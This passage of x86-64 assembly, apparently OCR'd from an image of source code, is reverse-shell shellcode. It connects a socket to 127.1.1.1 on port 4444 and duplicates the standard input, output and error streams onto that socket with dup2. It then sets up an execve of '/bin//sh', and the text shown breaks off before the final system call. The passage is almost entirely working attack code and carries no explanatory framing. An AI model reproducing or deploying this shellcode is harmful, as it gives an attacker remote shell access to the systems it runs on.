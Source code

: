 ```term
        push word 0x2
        pop bp

	push rdx

	mov dword [rsp-4], 0x0101017f
	mov word [rsp-6], 0x5c11
	mov word [rsp-8], bp
	sub rsp, 8

	; connect(sock, (struct sockaddr *)&server, sockaddr_len)

	mov al, 42
	mov rsi, rsp
	mov dl, 16
	syscall


        ; duplicate sockets

        ; dup2 (new, old)

	mov al, 33

        xor rsi, rsi

        syscall

        mov al, 33

        inc rsi

        syscall

        mov al, 33

        inc rsi

        syscall


        ; execve

        ; First NULL push

        xor rax, rax
        push rax

        ; push /bin//sh in reverse

        mov rbx, 0x68732f2f6e69622f
        push rbx

        ; store /bin//sh address in RDI

        mov rdi, rsp

        ; Second NULL push
        push rax

        ; set RDX
        mov rdx, rsp

```